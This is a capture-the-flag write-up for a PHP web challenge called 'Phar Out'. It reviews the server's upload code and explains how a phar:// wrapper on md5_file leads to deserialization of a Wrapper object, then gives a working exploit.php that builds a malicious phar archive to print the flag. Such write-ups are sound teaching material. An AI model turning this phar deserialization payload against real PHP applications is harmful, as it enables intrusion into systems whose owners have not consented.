

# Phar Out
**Category: Web**



Pretty simple. We can upload a file, and the site will show the corresponding MD5 hash.

The challenge provided the server source. Let's look at `index.php` first:

## index.php

It starts with:
```html
<?php

include("wrapper.php");

?>

<html>
<head>
	<title>Phar Out!</title>
</head>

<body>

<p>
Upload a file, and I'll hash it with MD5 :-)
</p>
<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="POST" enctype="multipart/form-data">
<input type="file" name="the_file" />
<input type="hidden" name="s" value="f" />
<input type="submit" name="submit" value="Upload File" />
</form>
```

We'll have to loop back for a closer look at that imported file at the top. The form has an interesting hidden input field, "`s`", which might come in handy later.

Continuing the file:

```php
<?php

if (isset($_POST['submit']) && $_FILES['the_file']['size'] > 0)
{
	$dest_dir = getcwd() . "/uploads/";

	echo "<br />Submitted<br />";
	$target_file = $dest_dir . basename($_FILES["the_file"]["name"]);
	
	//print_r($_FILES);
	move_uploaded_file($_FILES["the_file"]["tmp_name"], $target_file);

	if ($_POST['s'] === 'p')
		$s = 'phar://';
	else
		$s = 'file://';
	echo md5_file("$s$target_file");
	unlink($target_file);
}

?>
```

First, the uploaded file gets put into the `uploads` directory. Then the value of `md5_file` of our file gets printed. Note that depending on the value of the hidden input field, our file is handled with either the `file://` or `phar://` protocol. According to the PHP documentation:
> What is phar? Phar archives are best characterized as a convenient way to group several files into a single file. As such, a phar archive provides a way to distribute a complete PHP application in a single file and run it from that file without the need to extract it to disk.

Finally, the file gets deleted.

Let's take a look at that imported file:

## wrapper.php
```php
<?php

include("doit.php");

class Wrapper
{
	private $doit;
	public function __wakeup()
	{
		if (isset($this->doit))
		{
			$this->doit = new Doit();
		}
		else
		{
			echo "Hello from Wrapper!";
		}
	}
}

?>
```

There's another import here that we will need to loop back to. `wrapper.php` defines the `Wrapper` class with the magic `__wakeup()` function. (When a class gets unserialized in PHP, the `__wakeup()` function is automatically called.) In our example, that function will instantiate the `Doit` class if the `$doit` property is set.

## doit.php
```php
<?php

class Doit {
        public function __construct()
        {
                $flag = getenv("FLAG");
                echo "flag{{$flag}}\n";
        }
}

?>
```

Immediately upon being constructed, this class will print the flag.

If we pass in a serialized phar object that instantiates the Wrapper with the `$doit` property set, we should be able to print the flag.

## Building a phar
I found [this](https://bananamafia.dev/post/php-deserialize-cccamp19/) blog post which explained how to make a phar. I modified his payload to create this:

### exploit.php
```php
<?php
class Wrapper { private $doit = "yes"; }

$phar = new \Phar("exploit.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();");

# Setting the metadata serializes the payload object
$payload = new Wrapper();
# Here's where the object is serialized and added to the Phar
$phar->setMetadata($payload);

# Add a dummy file to respect the Phar specifications
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```
Notice how our phar will construct the `Wrapper` class with the `$doit` property set.

Packaging it up with `php -c source/php.ini exploit.php` we get our phar, `exploit.phar`.

Uploading this to the challenge server with the hidden input field set to phar mode prints the flag to the page:

```
flag{scooby}
```

🎷
